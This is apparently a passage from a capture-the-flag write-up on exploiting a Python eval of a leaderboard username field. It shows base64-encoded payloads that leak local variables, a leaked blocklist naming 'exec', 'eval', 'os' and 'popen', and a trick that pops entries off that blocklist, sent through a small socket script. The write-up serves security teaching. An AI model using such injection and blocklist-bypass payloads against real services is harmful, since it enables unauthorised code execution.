 - vars() : returns the variables of the given object, if nothing given, equivalent to locals()
- locals() : return all local varaibles
- globals() : return declared objects (functions / varaibles) in the global scope

So naturally, I tried getting the local varaibles first

```py
{'user_name':locals()}
```

```
b'Please give your username for the leaderboard\n'
eyd1c2VyX25hbWUnOmxvY2FscygpfQ==
An error occurred: Error binding parameter 0 - probably unsupported type.
```

After using the 2 braincells that were left, I figured that it couldn't return a dictionary. So, I tried converting it into a string.

```py
{'user_name':str(locals())}
```

```
b'Please give your username for the leaderboard\n'
eyd1c2VyX25hbWUnOnN0cihsb2NhbHMoKSl9
No existing score for {'token_len_max': 27, 'token_len': 27, 'forbidden_words': ['import', 'exec', 'eval', 'os', 'sys', 'popen'], 'unserialized': {}, 'identifier': "{'user_name':str(locals())}"}
Please give your username for the leaderboard
```

This result confirmed that I was right on the max length of 27, it also gives us an intersting variable, `forbidden_words`, which will be of great help to try bypassing the blocklist.

After that, I wanted to try seeing how the backend was done. So I .... tested .... tested .... and tested more

After that, I concluded that if we send a payload that starts with `{` and ends with `}`, it's counted as a token, then, the token is `evaluated` to create the varaible `unserialized`. If an exception is raised, the program just creates a token and returns it. If not, he tries to find the key `user_name`, if this key exist and is valid, it updates the data, else another propmt appears.

I also tried to change `forbidden_words` with a prompt, and then get it with `local` in another prompt.

```py
{5:forbidden_words.pop()} # only possible to modify lists in eval because no affectations are allowed
{'user_name':str(locals())}
```

For that, I used the code

```py
username = "ezU6Zm9yYmlkZGVuX3dvcmRzLnBvcCgpfQ=="
print(username)
con.send(username.encode())
time.sleep(1)

username = "eyd1c2VyX25hbWUnOnN0cihsb2NhbHMoKSl9"
print(username)
con.send(username.encode())
time.sleep(1)

print(con.recv(4096).decode())
```
